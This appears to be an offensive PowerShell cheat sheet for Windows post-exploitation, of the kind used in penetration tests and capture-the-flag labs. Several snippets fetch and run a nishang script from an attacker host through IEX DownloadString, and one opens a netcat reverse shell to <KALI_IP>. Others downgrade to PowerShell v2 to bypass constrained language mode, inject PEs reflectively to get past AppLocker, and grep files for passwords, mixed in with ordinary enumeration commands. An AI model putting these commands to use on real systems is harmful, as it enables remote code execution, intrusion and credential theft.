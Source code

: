 ## Execute Powershell as a different user
### Method #1: Start-Job --> Has Fork Effect
```powershell
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<KALI_IP>/nishang.ps1')}
```
### Method #2: Start-Process --> Has Fork Effect
```powershell
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Start-Process -Credential $Cred PowerShell.exe -ArgumentList IEX(New-Object Net.webClient).downloadString('http://<KALI_IP>/nishang.ps1')
```
### Method #3: Invoke-Command --> Has Fork Effect
```powershell
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Invoke-Command 127.0.0.1 -Credential $Cred -Scriptblock {c:\programdata\nc64.exe -e powershell.exe <KALI_IP> <PORT>} -AsJob
```

## Downgrade to powershell v2 (bypass constrained language mode)
```powershell
Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"
```

## Execute powershell in memory
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') | IEX
```

## Get files only in a directory
```powershell
(ls -File -Recurse -Force -EA SilentlyContinue).fullname
```

## Get OS architecture
```powershell
$env:processor_architecture
```

## Get Process Architecture
```powershell
[Environment]::Is64BitProcess
```

## Locally listening ports (TCP)
```
netstat -ano -p tcp
```

## Get ACL
```powershell
Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString
```

## get file system access
```powershell
$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'
```

## Get Process Owners
```powershell
Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize
```

## Get .NET Version
### Paths:
```
c:\windows\microsoft.net\framework
c:\windows\microsoft.net\framework64
```
### Command:
```powershell
(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion
```

## get-bytes of a string
```powershell
[System.Text.Encoding]::UTF8.GetBytes('hello')
```

## Reflective Execution (Can Bypass Applocker)
```powershell
Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))
```

## CMD to powershell
```shell
powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"
```

## Find files Alternate Data Streams
```powershell
$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream};
$ErrorActionPreference = 'Continue'
```

## View listening connections (with optional PID translation to Proc names)
```powershell
$PROCS = Get-Process;
(Get-NetIPAddress -InterfaceAlias Ethernet0).IPAddress, '127.0.0.1', '0.0.0.0' | % {
	Get-NetTCPConnection -ErrorAction SilentlyContinue -LocalAddress "$_" | 
	Sort-Object LocalPort | 
	Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemotePort, RemoteAddress, State |
    ? {$_.localport -lt 49152} |
	Format-Table
}
```

## Enable PowerShell Remoting
```powershell
Enable-PSRemoting -Force
```

## Search for strings in files (needs optimization)
```
$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'
```